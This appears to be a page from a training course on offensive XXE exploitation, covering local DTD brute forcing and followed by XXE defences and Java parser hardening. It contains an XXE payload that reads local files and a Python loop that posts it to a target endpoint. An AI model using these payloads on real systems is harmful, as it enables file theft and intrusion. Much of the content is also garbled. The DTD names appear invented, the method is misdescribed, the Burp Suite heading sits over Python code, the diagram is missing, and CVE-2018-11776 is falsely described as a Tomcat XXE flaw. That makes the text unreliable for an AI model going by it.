

## Local DTD Brute Force Technique

### What is a Document Type Definition (DTD)?

A Document Type Definition (DTD) is a set of rules that define the structure and content of an XML document. It can include definitions for elements, attributes, and entities. In the context of XXE attacks, DTDs can be used to define external entities that reference sensitive files or resources.

### Why Brute Force Local DTDs?

Brute forcing local DTDs is a technique used to identify potentially exploitable files or resources on the target system. By systematically testing different DTDs, an attacker can discover files that may contain sensitive information or can be used to further compromise the system.

### How to Perform Local DTD Brute Force

To perform a local DTD brute force attack, you need to:

1. **Identify Potential DTDs**: Use a list of common DTDs or generate your own list based on known file structures.
2. **Inject DTD References**: Inject these DTD references into the XML input and observe the server's response.
3. **Filter Responses**: Filter out non-exploitable responses (e.g., "no such file or directory") to focus on potentially exploitable files.

### Complete Example: Brute Forcing Local DTDs

#### Step-by-Step Mechanics

1. **Prepare the List of DTDs**:
   - Use a pre-existing list of DTDs or generate your own.
   - Example list: `DTD_5S.TFTE`, `DTD_6S.TFTE`, etc.

2. **Inject DTD References**:
   - Construct an XML payload with the DTD reference.
   - Example payload:
     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE root [
       <!ENTITY xxe SYSTEM "file:///path/to/dtd/DTD_5S.TFTE">
     ]>
     <root>&xxe;</root>
     ```

3. **Send Payload to Intruder**:
   - Use Burp Suite's Intruder tool to automate the process.
   - Configure Intruder to replace the DTD path with each entry from the list.

4. **Analyze Responses**:
   - Look for responses that indicate successful exploitation (e.g., file contents).

#### Code Example: Brute Forcing DTDs with Burp Suite

```python
import requests

# List of DTDs to test
dtd_list = ["DTD_5S.TFTE", "DTD_6S.TFTE"]

# Base URL and XML payload template
base_url = "http://target.example.com/api"
payload_template = """<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///path/to/dtd/{dtd}">
]>
<root>&xxe;</root>"""

for dtd in dtd_list:
    payload = payload_template.format(dtd=dtd)
    response = requests.post(base_url, data=payload)
    print(f"Response for {dtd}: {response.text}")
```

### Mermaid Diagram: Brute Force Process



### Pitfalls and Common Mistakes

- **Incomplete DTD List**: Using an incomplete or outdated list of DTDs can result in missing potential vulnerabilities.
- **Incorrect File Paths**: Incorrectly specifying file paths can lead to false negatives.
- **Ignoring Non-Exploitable Responses**: Filtering out non-exploitable responses is crucial but can be challenging.

### How to Prevent / Defend Against XXE Attacks

#### Detection

- **Logging and Monitoring**: Implement logging and monitoring to detect unusual XML input patterns.
- **IDS/IPS**: Use intrusion detection and prevention systems to identify and block suspicious XML requests.

#### Prevention

- **Disable External Entities**: Disable the processing of external entities in XML parsers.
- **Input Validation**: Validate and sanitize all XML input to ensure it does not contain malicious content.

#### Secure Coding Fixes

- **Vulnerable Code**:
  ```java
  // Vulnerable Java code
  DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
  DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
  Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
  ```

- **Secure Code**:
  ```java
  // Secure Java code
  DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
  dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
  Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
  ```

### Configuration Hardening

- **Web Server Configuration**: Harden web server configurations to prevent unauthorized access to sensitive files.
- **Firewall Rules**: Implement firewall rules to restrict access to sensitive directories.

### Real-World Example: CVE-2018-11776

CVE-2018-11776 is a vulnerability in the Apache Tomcat server that allowed attackers to perform XXE attacks, leading to remote code execution. This highlights the importance of keeping software up-to-date and properly configured to mitigate such vulnerabilities.

---
<!-- nav -->
[[03-Hands-On Practice Labs|Hands-On Practice Labs]] | [[API Security/22-Offensive XXE Exploitation/08-Exfiltration with local DTD on Lab/00-Overview|Overview]] | [[API Security/22-Offensive XXE Exploitation/08-Exfiltration with local DTD on Lab/05-Practice Questions & Answers|Practice Questions & Answers]]
